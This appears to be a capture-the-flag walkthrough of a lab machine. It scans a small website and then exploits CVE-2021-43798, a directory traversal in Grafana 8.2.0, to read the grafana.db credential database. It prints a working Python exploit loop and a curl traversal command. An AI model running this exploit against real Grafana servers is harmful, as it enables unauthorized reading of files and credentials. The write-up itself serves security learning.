 ![image](https://github.com/user-attachments/assets/55ec0b6c-b82c-4747-899e-fce02fc75128)

There is simple website running, i am looking for any input windows for potential sql injection, there is link to another page(read more):

![image](https://github.com/user-attachments/assets/1d5b8068-8a8d-4d38-9a26-526c86dd5c79)

On this page there is also nothing happening, but we got interesting piece of information that there is ssh user called "developer", and DevOps is supposed to give him password.
I tried to Enumerate subdomains, directories and files but found nothing, so i thought it is time to move for another service i choose ppp? over port 3000 since it seemed interesting becouse nmap could not tell what service it is.

![image](https://github.com/user-attachments/assets/ec1eb6eb-e77b-4cdc-b27f-7395c678ccfd)

Deafult credentials for Grafana admin dont work: admin, admin. So only one thing left there beside testing input windows password and login, is to check version (usually when we see common web app we can trust its login page to be secure).
I found CVE-2021-43798 for Grafana, it affects versions from 8.0.-beta1 to 8.3.0, we have 8.2.0 so it should work. This CVE is simple directory traversal vulnerability, in this github:        
https://github.com/jas502n/Grafana-CVE-2021-43798                
I found this path for database password: /var/lib/grafana/grafana.db          
In this exploit-db page i found exploit:            
https://www.exploit-db.com/exploits/50581          
```
def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass
```
By analyzing code we can tell that it have list of plugins, it creates url request by adding to ip/domain, /public/plugins/ and then adding plugin from list, after that path traversal string and file to read.     
We can recreate it manually (grabbing first plugin from the list "alertlist"), path as is flag becouse we dont wand curl to mess with our path:
```
curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db --output test.txt
```
And it worked!
